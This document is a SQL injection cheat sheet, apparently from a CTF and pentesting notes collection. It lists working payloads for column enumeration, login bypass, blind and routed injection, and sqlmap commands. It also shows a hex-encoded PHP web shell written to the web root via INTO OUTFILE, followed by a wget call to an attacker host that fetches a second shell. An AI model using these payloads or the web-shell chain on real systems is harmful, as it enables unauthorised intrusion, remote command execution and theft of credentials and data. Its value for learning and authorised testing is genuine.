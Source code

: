```yaml
---
title: SQLi 💉
---
```

## Entry point detection

```sql
'
"
`
')
")
`)
'))
"))
`))
```

## Union based

### Union Select

```sql
ID union select 1,2,3,4
' union select 1, @@version-- -
' union select 1, table_name FROM information_schema.tables-- -
```

### Union Group By / Order

```sql
1' ORDER BY 1--+    #True
1' ORDER BY 2--+    #True
1' ORDER BY 3--+    #True
1' ORDER BY 4--+    #False -> query is only using 3 columns
```

```sql
1' GROUP BY 1--+    #True
1' GROUP BY 2--+    #True
1' GROUP BY 3--+    #True
1' GROUP BY 4--+    #False -> query is only using 3 columns
```

## Upload webshell

`<?php echo "<pre>" . shell_exec($_GET["cmd"]) . "</pre>";?>` traduces in `0x3C3F706870206563686F20223C7072653E22202E207368656C6C5F6578656328245F4745545B22636D64225D29202E20223C2F7072653E223B3F3E` in hex format:

```sql
' INTO OUTFILE '/var/www/html/shell.php' LINES TERMINATED BY 0x3C3F706870206563686F20223C7072653E22202E207368656C6C5F6578656328245F4745545B22636D64225D29202E20223C2F7072653E223B3F3E-- -
```

- If you get an error, the query has been executed correctly. Now check `/shell.php`
- Now, to gain a full shell, you can just upload one and then calling it like:
	- Create the shell (check [reverse_shells](reverse_shells.md))
	- Create python web server
	- Download it from the browser: `http://domain.com/shell.php?cmd=wget http://IP_ATTACK:PORT/sexyshell.php`
	- Call it: `http://domain.com/sexyshell.php`

## Bypass a login

- You can try: 

```sql
username: admin' or 1=1-- -

password: whatever
```

## Storing location

- A common way to try to influence on our IP address via HTTP is to use the `X-Forwarded-For` header. We can directly set an injection point in this header:

```shell
sqlmap -u 'http://domain.com/path' -H 'X-Forwarded-For: YOUR_IP*' --risk 3 --level 5 --dbms MySQL
```

- The result might look like this:

```shell
sqlmap identified the following injection point(s) with a total of 2254 HTTP(s) requests:
---
Parameter: X-Forwarded-For #1* ((custom) HEADER)
    Type: stacked queries
    Title: MySQL >= 5.0.12 stacked queries (comment)
    Payload: 10.11.75.136';SELECT SLEEP(5)#

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: 10.11.75.136' AND (SELECT 8527 FROM (SELECT(SLEEP(5)))ACZe)-- jhGF
---
```

==Now go to the **Sqlmap** note to follow.==

## Boolean-based Blind

- When introducing a username to register and the app says if it is available or not, we can analyze the traffic and evaluate an API request:

![](Pasted%20image%2020240323224232.png)

- The request looks like this and returns a boolean in JSON:

```shell
curl "http://10.10.115.157/register/user-check?username=gitblanc" -s | jq
# returns:
{  
  "available": true  
}
# A username that is in use:
curl "http://10.10.115.157/register/user-check?username=admin" -s | jq
# returns:
{
  "available": false
}
```

- So we can try for:

```shell
curl "http://10.10.115.157/register/user-check?username=gitblanc' OR 1=2-- -" -s | jq
# returns:
{  
  "available": true  
}
curl "http://10.10.115.157/register/user-check?username=gitblanc' OR 1=1-- -" -s | jq
# returns:
{  
  "available": false  
}
curl "http://10.10.115.157/register/user-check?username=admin' OR 1=2-- -" -s | jq
# returns:
{  
  "available": true  
}
curl "http://10.10.115.157/register/user-check?username=admin' OR 1=1-- -" -s | jq
# returns:
{  
  "available": false  
}
```

- Try it with sqlmap: 

```shell
sqlmap -u 'http://domain.com/register/user-check?username=gitblanc' -p username --risk 3 --level 5 --dbms MySQL
```

## Routed SQLi

> **Routed SQL Injection** can be In-band, Inferential or Out-of-band. It is a special kind of SQLi attack where the injectable query is not the one which is leaking the data but the output of this query is the input of another query that is giving the final data leakage.
> 
The following piece of PHP code from _Zenodermus Javanicus_ illustrates how the vulnerability can be implemented on the server-side.

```php
<?php   
$id = $_GET['id'];  
$query = "SELECT id,sec_code FROM users WHERE id='$id'";  
  
if (!$result = mysql_query($query, $conn)) die("Error While Selection process : " . mysql_error());  
  
if (mysql_num_rows($result) == 0) die();  
$row = mysql_fetch_array($result, MYSQL_ASSOC);  
$query = "SELECT username FROM users WHERE sec_code='" . $row['sec_code'] . "'";  
echo "<br /><font color=red>This is the query which gives you Output : </font>$query<br /><br />";  
  
if (!$result = mysql_query($query, $conn)) die("Error While Selection process : " . mysql_error());  
  
if (mysql_num_rows($result) == 0) die("Invalid Input parameter");  
$row = mysql_fetch_array($result, MYSQL_ASSOC);  
echo 'Username is : ' . $row['username'] . "<br />"; ?>
```

>First, a classical SQLi attack can be conducted to deduce the number of columns of the first query.
>
Then, the first part of the first query need to be voided with something like `and false` or `and 1=0` so this will output 0 rows. Using `UNION SELECT` in the second part of the first query will allow to control the output.
>
>Example of payload:

```sql
?user=john' AND FALSE UNION SELECT 1,2,3-- -
```

>But instead of injecting dummy data in the second query, it is needed to encode the nested payload as hexadecimal to carry it.
>
>Example of payload:

```sql
?user=john' AND FALSE UNION SELECT 1,0x220756e696f6e2073656c65637420757365722c70617373776f72642d2d202d,3-- -
```

>It is needed to encode the nested payload to avoid it interfering with the root query. The goal is to use `UNION SELECT` in the first query to display a SQL payload as an input of the second query. So the decoded version of `0x220756e696f6e2073656c65637420757365722c70617373776f72642d2d202d` (`' union select user,password-- -`) will be injected in the second query. Routing the payload from a query to another.

- With the following payload, we are able to detect which columns are reflected:

```sql
2 union all select 'gitblanc','is','sexy' from users-- -
```

![](Pasted%20image%2020240323231230.png)

- So now, we can try to replace `gitblanc` or `is` with a SQL query.
- With the nested payload we can find which columns is reflected:

```sql
2 union all select '44 UNION SELECT 5,6,7,8-- -','is','sexy' from users-- -
```

![](Pasted%20image%2020240323231506.png)

- So now, we replace the nested to select the flag (now you could list tables and columns in a real scenario):

```sql
2 union all select '44 UNION SELECT 5,flag,7,8 from flag-- -','is','sexy' from users-- -
```

![](Pasted%20image%2020240323231734.png)

## In-band SQLi

- If you try a Union select attack like: `33 UNION SELECT 1,2,3,4` and you get an output like:

![](Pasted%20image%2020240323232050.png)

- Now you know that you have an **In-Band SQLi**
- ==Now list the databases with Sqlmap==